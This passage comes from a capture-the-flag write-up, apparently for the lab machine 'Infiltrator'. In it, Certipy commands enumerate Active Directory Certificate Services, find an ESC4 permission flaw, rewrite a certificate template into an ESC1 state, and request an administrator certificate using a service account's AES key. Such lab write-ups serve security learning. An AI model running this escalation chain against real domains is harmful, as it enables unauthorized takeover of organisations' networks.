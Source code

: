 And then:

{% code overflow="wrap" %}
```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ certipy find -u 'infiltrator_svc$' -aes 6ecc3726b898126831d1335949dbc6a350dd7da5dafb0148c9ba97b78aba5274 -target dc01.infiltrator.htb -debug -dc-ip 10.129.171.160
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'dc01.infiltrator.htb' at '10.129.171.160'
[+] Authenticating to LDAP server
..........snip.........
[*] Saved text output to '20250514193931_Certipy.txt'
[*] Saved JSON output to '20250514193931_Certipy.json'
```
{% endcode %}

We can now check out the saved files and look for permission issues. And we do indeed find one:

{% code overflow="wrap" %}
```
    [!] Vulnerabilities
      ESC4                              : 'INFILTRATOR.HTB\\infiltrator_svc' has dangerous permissions
```
{% endcode %}

After some googling, we find that we can exploit ESC4 by first manufacturing a template vulnerable to ESC1, and then exploiting it:

{% code overflow="wrap" %}
```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ certipy template -template Infiltrator_Template -save-old -u infiltrator_svc$ -dc-ip 10.129.171.160 -target dc01.infiltrator.htb -aes 6ecc3726b898126831d1335949dbc6a350dd7da5dafb0148c9ba97b78aba5274 -scheme ldap
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'Infiltrator_Template' to 'Infiltrator_Template.json'
[*] Updating certificate template 'Infiltrator_Template'
[*] Successfully updated 'Infiltrator_Template'
                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ certipy req -template Infiltrator_Template -u infiltrator_svc$ -dc-ip 10.129.171.160 -target dc01.infiltrator.htb -aes 6ecc3726b898126831d1335949dbc6a350dd7da5dafb0148c9ba97b78aba5274 -upn administrator -ca infiltrator-DC01-CA
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ certipy req -template Infiltrator_Template -u infiltrator_svc$ -dc-ip 10.129.171.160 -target dc01.infiltrator.htb -aes 6ecc3726b898126831d1335949dbc6a350dd7da5dafb0148c9ba97b78aba5274 -upn administrator -ca infiltrator-DC01-CA
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
{% endcode %}
